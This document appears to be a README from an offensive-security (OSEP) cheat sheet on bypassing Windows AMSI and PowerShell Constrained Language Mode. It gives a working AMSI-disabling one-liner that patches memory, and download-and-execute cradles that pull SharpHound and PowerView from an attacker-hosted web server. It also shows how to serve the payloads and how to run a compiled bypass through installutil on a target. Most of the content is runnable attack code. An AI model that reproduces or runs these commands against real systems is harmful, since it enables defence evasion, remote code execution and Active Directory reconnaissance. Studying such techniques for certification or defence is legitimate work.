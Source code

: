 # AMSI and Constrained Languages Mode Bypass

## Methode 1 - CLM Bypass to AMSI Bypass through text file.

1. Download the Source Code of CLM Bypass and compile it.

*  <a href="https://github.com/V0lk3n/OSEP-CheatSheet/tree/main/Bypasses/CLM%20Bypass">CLM Bypass</a>

2. Create a text file to bypass AMSI and import/execute the needed PowerShell script or whatever.

Example using SharpHound PowerShell Script and saving the output to log.txt file :
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
iex((new-object system.net.webclient).downloadstring('http://192.168.X.X/SharpHound.ps1'))
Get-DomainComputer -Unconstrained >> "C:\Users\Public\log.txt"
```
3. Place the PowerShell script, and AMSI bypass text file in the same location and host them inside a web server.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ ls                                                                                                                              1 ⨯
amsi-bypass-powershell.txt  PowerView.ps1
 
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

4. Execute the CLM Bypass exe on the target server using installutil to trigger the Uninstall function.

```PowerShell
PS C:\Users\Public> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U CLM-Bypass.exe
```

5. Read the log.txt file to get the script output.

## Methode 2 - Manually AMSI Bypass.

1. Bypass AMSI

```PowerShell
PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

2. Load remotely PowerView.ps1 inside memory (iex).

```PowerShell
PS C:\> (new-object system.net.webclient).downloadstring('http://Attacker:port/PowerView.ps1') | iex
```

3. Execute PowerView normally.
